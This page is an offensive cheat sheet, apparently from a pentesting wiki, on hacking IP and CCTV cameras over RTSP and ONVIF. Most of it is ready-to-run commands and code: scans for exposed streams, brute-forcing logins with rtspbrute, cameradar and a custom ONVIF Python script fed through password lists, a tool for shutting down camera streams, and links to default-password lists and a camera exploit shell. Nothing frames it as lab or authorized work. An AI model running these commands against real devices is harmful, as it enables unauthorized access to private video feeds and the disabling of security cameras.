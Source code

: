 # Hacking

&#x20;

<figure><img src="https://files.oaiusercontent.com/file-OW8irvYAmydhIli84eIXWFLd?se=2023-11-30T15%3A20%3A34Z&#x26;sp=r&#x26;sv=2021-08-06&#x26;sr=b&#x26;rscc=max-age%3D31536000%2C%20immutable&#x26;rscd=attachment%3B%20filename%3D8377d473-bc12-454a-a3a1-4e0c5f0c7e22.webp&#x26;sig=eoiustSWM5KBFOoikTflal4MLTJy8wfcu/W7Z9stZiI%3D" alt="" width="563"><figcaption><p>"<em>You see, but you do not observe</em>." - S. Holmes</p></figcaption></figure>

## Default credentials

* [The default passwords of nearly every IP camera, Hackers Arise (2023)](https://www.hackers-arise.com/post/the-default-passwords-of-nearly-every-ip-camera)
* [Default Camera Passwords, IspyConnect](https://www.ispyconnect.com/userguide-default-passwords.aspx)

## RTSP

### Seeking out

> **Ports used by RTSP** :
>
> * 554
> * 5554
> * 8554

**Make a request**

```bash
curl -i -X OPTIONS rtsp://$ip/stream1 RTSP/1.1
# a valid RTSP service should respond RTSP/1.0 200 OK
```

### Scanning

```bash
nmap -sV --script "rtsp-*" -p <PORT> <IP>
```

### Bruteforce

[Common wordlist](https://github.com/nmap/nmap/blob/master/nselib/data/rtsp-urls.txt)

```bash
pip install rtspbrute av Pillow rich
rtspbrute -t hosts.txt -p 8554
```

### Cameradar | Get all the infos + bruteforce

```bash
git clone https://github.com/Ullaakut/cameradar
cd cameradar
# scan for default ports
docker run --net=host -t ullaakut/cameradar -t $ip

# bruteforce
docker run -t ullaakut/cameradar -t $ip -p $port -T 3s -s 3 -d
# with custom wordlist
docker run  ullaakut/cameradar -t -v /usr/share/seclists/Passwords/Common-Credentials:/tmp/dictionaries -c "tmp/dictionaries/10-million-password-list-top-1000000.json" -t 192.168.1.101
```

## ONVIF

> If you receive long output in XML markup, then this device has support for the ONVIF protocol. ONVIF does not have a standard port, usually this protocol is found on ports 8899, 80, 8080, 5000, 6688.

### Install

```bash
sudo pip install onvif
git clone https://github.com/quatanium/python-onvif.git
cd python-onvif && python setup.py install
```

### Commands

**- Get the hostname using this python script :**

```python
# python script
from onvif import ONVIFCamera
mycam = ONVIFCamera('192.168.0.2', 80, 'user', 'passwd', '/etc/onvif/wsdl/')

# Get Hostname
resp = mycam.devicemgmt.GetHostname()
print 'My camera`s hostname: ' + str(resp.Name)

# Get system date and time
dt = mycam.devicemgmt.GetSystemDateAndTime()
tz = dt.TimeZone
year = dt.UTCDateTime.Date.Year
hour = dt.UTCDateTime.Time.Hour
```

### Bruteforce

* Python Script :

```python
import sys
from onvif import ONVIFCamera
 
if len(sys.argv) < 4:
    user = ''
else:
    user = sys.argv[3]
 
if len(sys.argv) < 5:
    password = ''
else:
    password = sys.argv[4]      
 
mycam = ONVIFCamera(sys.argv[1], sys.argv[2], user, password, '/usr/local/lib/python3.9/site-packages/wsdl/')
 
resp = mycam.devicemgmt.GetDeviceInformation()
print (str(resp))
```

* Launch it :

```bash
parallel -j2 -a usernames.txt -a passwords.txt 'python3 bruteforcer.py $ip $port 2>/dev/null {1} {2}'
```

## Shut down CCTV

{% embed url="https://github.com/Ullaakut/camerattack" %}

```bash
# install
export GO111MODULE=on
go get github.com/ullaakut/camerattack@latest
cd $GOPATH/src/github.com/ullaakut/camerattack
go install

# usage
camerattack rtsp://0.0.0.0:8554/live.sdp
```

## Tricks

* Try to login with empty passwords 7+ times

## Tools

{% embed url="https://github.com/EntySec/CamOver" %}
For CCTV, GoAhead, Netwave
{% endembed %}

## Resources

*   [Exploiting Surveillance Cameras like a Hollywood Hacker - Craig Heffner (2013)](https://media.blackhat.com/us-13/US-13-Heffner-Exploiting-Network-Surveillance-Cameras-Like-A-Hollywood-Hacker-WP.pdf)

    > Linked exploit tool : [IPCamShell](https://github.com/nmalcolm/ipcamshell)
* [Hacking CCTV and IP cameras: Are you safe ? - David Bombai, Youtube (2022)](https://www.youtube.com/watch?v=ZGCScbV7vSA)
